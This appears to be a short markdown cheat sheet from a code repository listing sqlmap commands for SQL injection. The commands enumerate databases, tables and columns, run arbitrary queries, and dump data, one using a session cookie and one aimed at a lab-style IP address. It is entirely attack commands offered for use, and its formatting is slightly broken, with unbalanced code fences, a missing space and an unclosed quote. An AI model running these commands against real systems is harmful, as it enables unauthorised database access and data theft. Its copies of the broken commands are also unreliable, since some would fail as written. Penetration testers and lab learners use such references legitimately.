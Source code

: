 # SQLmap commands
## http post req in req.tex 
```
sqlmap -r req.txt --level 3 --risk 3 --dbs	
```
```
sqlmap -r req.txt --level 3 --risk 3 -D YOURDATABASE--tables
```	
sqlmap -r req.txt --level 3 --risk 3 -D YOURDATABASE -T YOURTABLE --columns
```
```
sqlmap -r req.txt --level 3 --risk 3 -D YOURDATABASE -T YOURTABLE -C YOURCOLUMN --sql-query "YOURQUERY"
```

```
sqlmap http://[IP]/admin?user=3 --cookie='token=[Enter Cookie] --technique=U --delay=2 -dump
```
```
sqlmap  -u "http://10.10.58.103/products/1" --batch -D <database> --dump
```
